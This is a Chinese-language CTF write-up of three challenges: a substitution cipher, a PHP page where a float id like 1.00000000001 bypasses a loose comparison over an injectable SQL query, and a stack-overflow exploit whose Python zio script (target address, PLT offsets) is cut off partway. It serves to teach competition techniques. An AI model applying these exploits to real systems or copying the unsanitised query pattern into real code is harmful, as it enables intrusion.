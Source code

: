 ## `100` `old-fashion`

基本的密码题，直接扔到[http://quipqiup.com/](http://quipqiup.com/)上，没有直接解但有一个解的前半部分很像明文。后来猜测密文不同部分采用的替换方式不同，尝试把密文按分号分成两段分别提交上去，可以直接得到明文，后一段的最后部分就是flag。


## `100` `最好的语言`

在给出的php网址后面加上.bak即可拿到php源代码：

```php
<?php

//TODO: connect to DB 

$id = $_GET['id'];

//TODO: sqli filter

$secretId = 1024;
if($id == $secretId){
    echo 'Invalid id ('.$id.').';
}
else{
    $query = 'SELECT * FROM notes WHERE id = \''.$id.'\';';
    $result = mysql_query($query,$conn);
    $row = mysql_fetch_assoc($result);
 
    echo "notes: ".$row['notes']."</br>";
}
?>
```

于是可以看出我们应该就是要拿到数据库中id为1024的记录，这里我们利用PHP和MySQL的精度不同可以使得`$id == $secretId`的判断为false的同时SQL又能取到id为1024的记录，即我们只要传`id=1.00000000001`（具体多少个0已经忘记，反正多了少了都不行，多试几次就可以了），网站就会返回flag。


## `100` `guess`

简单栈溢出，可以控制程序流程，但难拿到shell，于是可以控制程序走到输出用来识别的图形那个函数，参数用最后输入邮箱的全局变量，就可以任意指定文件名了，用flag当文件名，就可以把flag发回来了

```python
#!/usr/bin/env python
#encoding:utf-8

import zio

TARGET = ('119.254.101.197', 10000)
PUTS_PLT = 0x08048550
LEN_TO_RET = 0x8c + 4 + 12

READ_FILE = 0x08048830
STR_ADDR = 0x0804a100

def judge(s):
    print '====', s[:100], '===='
    if s.startswith('                    .----.'):
        return 'peanuts'
    if s.startswith('quu..__'):
        return 'pikachu'
    if s.startswith('\n                     Tb.'):
        return 'batman'
    if s.startswith('                 .88888888:.'):
        return 'linux'
    if s.startswith('               .=.,'):
```